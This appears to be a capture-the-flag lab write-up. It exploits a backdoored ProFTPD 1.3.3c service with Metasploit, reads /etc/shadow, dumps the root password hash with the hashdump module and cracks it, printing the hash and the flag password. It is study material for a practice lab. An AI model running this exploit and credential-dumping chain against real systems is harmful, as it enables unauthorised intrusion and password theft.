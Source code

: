 # 🔬Hashes Dumping

## Lab 1

>  🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
>  - Target IP: `192.75.64.3`
>  - **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
ip -br -c a
	192.75.64.2/24
```

```bash
nmap -sV 192.75.64.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:4B:40:03 (Unknown)
Service Info: OS: Unix
```

```bash
searchsploit ProFTPD 1.3.3
```

![searchsploit ProFTPD 1.3.3](linux-attacksassets/image-20230323104830486.png)

### Exploitation

```bash
service postgresql start && msfconsole -q
```

- Postgresql is started to store all `metasploit` loot and sensitive information from the target machine - [Metasploit - PostgreSQL Workflows](https://docs.metasploit.com/docs/pentesting/metasploit-guide-postgresql.html)

```bash
setg RHOSTS 192.75.64.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
run
```

```bash
/bin/bash -i
```

![Metasploit proftpd_133c_backdoor](linux-attacksassets/image-20230323105525516.png)

- Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions 2
```

![](linux-attacksassets/image-20230323105845671.png)

### Hashes Dumping

```bash
cat /etc/shadow
```

![cat /etc/shadow](linux-attacksassets/image-20230323105952352.png)

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`

- Gather Linux Password hashes with `Metasploit`

```bash
# background the session with CTRL+Z
search hashdump
use post/linux/gather/hashdump
set SESSION 2
run
```

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230323100234_default_192.75.64.3_linux.hashes_660271.txt
```

- The *unshadowed password file* is a file containing the format hashed password, ready to be cracked.

### Crack the Hash

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

![Metasploit crack_linux](linux-attacksassets/image-20230323110756857.png)



<details>
<summary>Reveal Flag - "root" password is:  🚩</summary>



`password`

![](linux-attacksassets/image-20230323110859459.png)

</details>